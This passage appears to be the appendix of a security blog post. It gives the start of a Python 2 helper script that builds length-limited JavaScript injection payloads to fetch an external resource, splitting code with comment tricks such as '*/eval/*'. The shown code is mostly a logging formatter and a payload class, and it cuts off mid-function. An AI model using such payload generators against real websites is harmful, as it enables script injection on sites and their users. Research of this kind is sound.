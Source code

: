 # Appendix: Helper script

Use this script to generate some of the above types of payloads, but with the URL of your external resource to fetch. You can also adjust the character limit. This blog post assumes it's called `fetch_helpers.py`.

```python
#!/usr/bin/env python2

import sys
import argparse
import string
import logging
import re

BLACK, RED, GREEN, YELLOW, BLUE, MAGENTA, CYAN, WHITE = range(8)

class ColorFormatter(logging.Formatter):
    COLORS = {
        'DEBUG'    : BLUE,
        'INFO'     : WHITE,
        'WARNING'  : YELLOW,
        'ERROR'    : RED,
        'CRITICAL' : RED,
    }
    def format(self, record):
        return '\x1b[1;3%dm%s\x1b[0m' % (
                self.COLORS[record.levelname],
                logging.Formatter.format(self,record))

MAX_JS_INT = 9007199254740991 # Number.MIN_SAFE_INTEGER

class Payload:
    def __init__(self, raw, to_string):
        self.raw = raw
        self.to_string = to_string
    
    def __len__(self):
        return len(self.raw)
    
    def __str__(self):
        return self.raw
    
    def append(self, payload):
        self.raw += payload
    
    def prepend(self, payload):
        self.raw = payload + self.raw
    
    def as_split_to_len(self, quote, max_len, **kwargs):
        if max_len < 10:
            # need to fit at least */eval/*
            logger.error("This encoding requires at least 10 characters per line")
            return ''
        
        logger.warn("This encoding won't work if the content between any of the separate split payloads contains multiline comments /* ... */")
        prefix = '*/'
        suffix = '/*'
        dummy_var = 'X'
        comment = suffix + '\n' + prefix
        sep = quote + '+' + comment + quote
        setup_prefix = comment.join(split_to_len(
```